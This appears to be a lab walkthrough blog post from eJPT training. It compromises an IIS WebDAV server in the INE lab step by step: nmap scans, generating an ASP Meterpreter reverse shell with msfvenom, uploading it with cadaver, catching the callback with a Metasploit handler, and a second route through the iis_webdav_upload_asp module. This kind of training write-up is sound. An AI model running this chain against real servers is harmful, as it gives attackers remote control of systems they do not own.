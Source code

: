 ```yaml
---
title: "eJPT - Windows IIS Server WebDav Metasplit Walkthrough & Insights"
date: 2025-03-31 00:00:00 - 0500
categories: [ eJPT , Lab , Vulnerability Assessment]
tags: [Footprinting, Easy]
image:
  path: /assets/img/Trending GIF lofi mrsuicidesheep hiyo seekingblue bysau.gif
---
```


---

## Lab Environment

In this lab environment, you will be provided with GUI access to a Kali machine. The target machine will be accessible at **demo.ine.local**.

**Objective:** Exploit the WebDAV service and retrieve the flag!

**The following username and password may be used to access the service:**

**Credentials:**
```
Username: bob
Passowrd: password_123321
```
# Tools

- Metasploit
- DAVTest
- Cadaver

Let’s with the lab

---

### Video Walkthrough's

{% include embed/youtube.html id='49SaqHOj_Pc' %}


### Service Enumeration using Nmap:

Started with Nmap to discovery the services that are running on the target

command

```bash
nmap -sV -sC demo.ine.local
```

 Breakdown:

- `-sV`: Enables version detection, which identifies the software version running on open ports.
- `-sC`: Runs default scripts (`default` category from NSE - Nmap Scripting Engine).
- `demo.ine.local`: The target domain or hostname.
![alt text](</assets/img/Pasted image 20250331121134.png>)

![alt text](</assets/img/Pasted image 20250331121152.png>)
Narrowed the Nmap scan to the specific port then also used a script that extract some more information form the specific port and it’s services.

```bash
nmap -sV -sC -p 80 --script=http-enum demo.ine.local
```
![alt text](</assets/img/Pasted image 20250331121229.png>)

![alt text](</assets/img/Pasted image 20250331121308.png>)



### Creating a asp shell using msfconsole

![alt text](</assets/img/Pasted image 20250331121345.png>)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=4444 -f asp > shell.asp
```

**Breakdown:**

- `msfvenom` → A payload generator in **Metasploit**, used to create shellcodes, backdoors, and exploits.
- `-p windows/meterpreter/reverse_tcp` → Specifies the **payload**:
    - `windows/meterpreter/reverse_tcp` → A **Meterpreter** reverse shell payload for Windows.
    - `reverse_tcp` → This means the target machine will **connect back** to the attacker's machine (LHOST).
- `LHOST=<YOUR_IP>` → The attacker's **IP address** (listener machine where the reverse shell will connect).
- `LPORT=4444` → The **port number** the shell will connect back to (default: `4444`).
- `-f asp` → Specifies the **format** of the payload (`asp` for an Active Server Page web shell).
- `> shell.asp` → Saves the generated payload as **`shell.asp`** (which can be uploaded to a vulnerable web server).
### Uploading asp file using cadaver

![alt text](</assets/img/Pasted image 20250331121400.png>)


```bash
cadaver <http://demo.ine.local/webdav>
```

**Breakdown:**
- `cadaver` → A **command-line WebDAV client** used to interact with Web Distributed Authoring and Versioning (**WebDAV**) servers.
- `http://demo.ine.local/webdav` → The **URL of the WebDAV server** you want to connect to.
Start the reverse handler for it

#### **Common Commands in Cadaver (Once Connected)**

After connecting, you can use the following commands:

|Command|Description|
|---|---|
|`ls`|List files in the current directory|
|`cd <dir>`|Change directory|
|`put <file>`|Upload a file to the server|
|`get <file>`|Download a file from the server|
|`delete <file>`|Remove a file from the server|
|`mkdir <dir>`|Create a directory on the WebDAV server|
|`rmdir <dir>`|Remove a directory|
|`exit` or `quit`|Close the connection|

Then run the asp file. and we got the access

![alt text](</assets/img/Pasted image 20250331121445.png>)

```bash
service postgresql start && msfconsole 
use multi/handler/
set payload windows/meterpreter/reverse_tcp
set lhost
set lport 
run
```
**Breakdown:**

- `service postgresql start` → Starts the **PostgreSQL database**, which Metasploit uses to store exploits and sessions.
- `&&` → Ensures that **Metasploit Framework (`msfconsole`)** starts **only if** PostgreSQL starts successfully.
- `msfconsole` → Launches the **Metasploit Framework Console** for running exploits and managing sessions.
- - `use multi/handler` → Loads the **multi-handler** module, which is used to receive incoming connections from exploited machines.
- `/` at the end is unnecessary; it should just be `use multi/handler`.
- - `set payload windows/meterpreter/reverse_tcp` → Configures the listener to handle *Windows Meterpreter reverse shell connections**.
- `reverse_tcp` → The target system will **connect back** to the attacker's system.
- - `set LHOST <YOUR_IP>` → Specifies the **attacker's IP address** (where the reverse shell will connect).
- `set LPORT <YOUR_PORT>` → Defines the **port number** to listen for incoming connections (default: `4444`).
- - Starts the listener to **wait for incoming connections** from the target machine.
- Once the target **executes the payload**, the attacker **gains a Meterpreter session**.

![alt text](</assets/img/Pasted image 20250331121502.png>)
---

## Here the version 2 for the same lab!

This version of Metasploit leverages msfconsole modules to automate and simplify the exploitation process, making it much easier for the end user (attacker).
- **Category**: Exploit Module
- **Purpose**: Uploads a malicious ASP shell to an IIS WebDAV-enabled server, allowing remote command execution.

### Starting the msfconsole

```bash
service postgresql start && msfconsole
```

```bash
serach iis upload
use exploit/windows/iis/iis_webdav_upload_asp
set httpusername 
set httppassword
set rhost
set path
run
```

- **Search for IIS Upload Exploits** – Finds available Metasploit modules for exploiting IIS file uploads.
- **Select the IIS WebDAV Upload Exploit** – Loads an exploit that allows uploading malicious ASP files to a WebDAV-enabled server.
- **Set Authentication Credentials (If Required)** – Provides login details if the server requires authentication.
- **Define the Target Host** – Specifies the IIS server’s IP address.
- **Set the Upload Path** – Chooses the directory where the file will be uploaded.
- **Execute the Exploit** – Uploads the ASP shell and attempts to gain remote code execution on the server.
